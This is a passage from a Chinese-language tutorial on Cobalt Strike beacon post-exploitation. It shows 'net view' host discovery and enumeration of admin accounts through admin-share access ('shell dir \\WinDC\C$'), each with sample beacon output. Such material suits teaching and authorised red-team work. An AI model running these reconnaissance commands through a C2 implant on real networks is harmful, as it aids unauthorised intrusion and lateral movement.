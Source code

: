 在 beacon 控制台中输入这些命令很类似输入一个本地的 net 命令，但是有一些些许的不同，比如下面一个是在主机上运行 net view 的结果一个是在 beacon 控制台下运行 net view 的结果。不难看出，beacon 下输出的结果更为丰富。

```powershell
PS C:\> net view
服务器名称            注解
-------------------------------------------
\\WIN-P2AASSD1AF1
命令成功完成。
```

```powershell
beacon> net view
[*] Tasked beacon to run net view
[+] host called home, sent: 104504 bytes
[+] received output:
List of hosts:
Server Name             IP Address                       Platform  Version  Type   Comment
-----------             ----------                       --------  -------  ----   -------
WIN-P2AASSD1AF1         192.168.15.124                   500       6.1      PDC    
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs15-1.png)

### 用户枚举

用户枚举的三个关键步骤：

1、当前账号是否为管理员账号？

2、哪些账号是域管理员账号？

3、哪个账号是这个系统上的本地管理员账号？

#### 管理员账号

第一个关键步骤，发现管理员账号。

如果想知道自己是否为管理员账号，可以尝试运行一些只有管理员账号才有权限操作的命令，然后通过返回结果判断是否为管理员。

其中一种方式是尝试列出仅仅只有管理员才能查看的共享列表，比如下面的 `dir \\host\C$` 命令，如果可以看到一个文件列表，那么说明可能拥有本地管理员权限。

```powershell
shell dir \\host\C$
```

```powershell
#管理员账号运行结果
beacon> shell dir \\WinDC\C$
[*] Tasked beacon to run: dir \\WinDC\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WinDC\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WinDC\C$ 的目录
2020/06/24  09:29    <DIR>          inetpub
2009/07/14  11:20    <DIR>          PerfLogs
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件              0 字节
               6 个目录 28,500,807,680 可用字节
```

